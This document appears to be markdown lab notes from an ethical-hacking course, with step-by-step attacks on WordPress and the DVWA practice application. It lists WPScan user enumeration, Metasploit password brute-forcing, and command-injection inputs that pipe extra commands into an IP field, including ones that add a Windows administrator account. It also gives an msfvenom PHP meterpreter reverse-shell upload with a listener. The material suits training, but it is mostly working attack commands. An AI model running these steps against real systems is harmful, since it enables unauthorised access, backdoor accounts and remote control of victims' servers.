 ### Enumerate and hack a web application using WPScan and Metasploit
```
wpscan --url url --enumerate u
wpscan --url website --usernames james --passwords file
```
```
wpscan --api-token [API Token] --url website --enumerate u 
```
We will get the username from here. to crack the password we will use metasploit
```
service postgresql start
msfconsole
use auxiliary/scanner/http/wordpress_login_enum
set PASS_FILE password file
set RHOSTS
set RPORT
set TARGETURI
set USERNAME
run
```

### Exploit a remote command execution vulnerability to compromise a target web server (DVWA)

DVWA
Command Injection
* enter IP Address
*  enter ip | hostnamE
*  enter ip | whoami
*  ip | tasklist
*  ip | taskkill /PID PIDVALUEOBTAINED /F
*  ip | dir C:/
*  ip | net user
*  ip | net user Test /Add
*  ip | net localgroup Administrators Test /Add
*  ip | net user Test

open rdp and login to server as test test

### Exploit a file upload vulnerability at different security levels (DVWA)

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address of Host Machine] LPORT=4444 -f raw
```
Copy the raw payload from terminal
```
nano upload.php
	paste the payload
```
Go to dvwa -> upload 
* LOW
	* Upload this file
	* Successful
	* Note down the location
```
msfconsole
use /exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost hostip
set lport 4444
run
```
Go to browser and paste the location and press enter
Go to meterpreter